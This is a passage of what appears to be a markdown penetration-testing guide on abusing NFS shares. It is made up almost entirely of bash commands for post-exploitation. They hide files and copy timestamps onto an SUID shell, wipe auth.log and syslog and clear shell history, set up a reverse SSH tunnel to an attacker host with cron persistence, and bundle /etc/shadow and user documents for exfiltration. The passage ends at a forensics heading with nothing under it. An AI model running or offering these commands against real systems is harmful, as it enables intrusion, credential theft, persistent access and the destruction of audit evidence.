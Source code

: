 
## 🔧 Advanced Techniques

### Stealth Techniques
```bash
# Hide files with special characters
touch "/mnt/target_nfs/tmp/ \b"  # Backspace character
touch "/mnt/target_nfs/tmp/..."  # Hidden dot file

# Timestamp manipulation
touch -r /bin/ls /mnt/target_nfs/suid_shell  # Match timestamps

# Log evasion
> /var/log/auth.log
> /var/log/syslog
history -c
```

### Network Pivot Setup
```bash
# Setup network pivot through NFS
# Create SSH tunnel config
cat > /mnt/target_nfs/tmp/ssh_tunnel.sh << 'EOF'
#!/bin/bash
ssh -R 8080:127.0.0.1:22 user@attacker-ip -N -f
EOF

chmod +x /mnt/target_nfs/tmp/ssh_tunnel.sh

# Add to cron for persistence
echo "*/5 * * * * /tmp/ssh_tunnel.sh" >> /etc/crontab
```

### Data Exfiltration
```bash
# Compress and stage data
tar -czf /mnt/target_nfs/tmp/exfil.tar.gz /etc/passwd /etc/shadow /home/*/Documents/

# Exfiltrate via NFS (access from attacker machine)
cp /tmp/exfil.tar.gz /mnt/target_nfs/tmp/

# From attacker machine
cp /mnt/target_nfs/tmp/exfil.tar.gz /tmp/
tar -xzf /tmp/exfil.tar.gz

# Alternative: Base64 encoding for text-based exfil
base64 -w 0 sensitive_file > /mnt/target_nfs/tmp/encoded_data.txt
```

---

## 🔍 Detection and Forensics
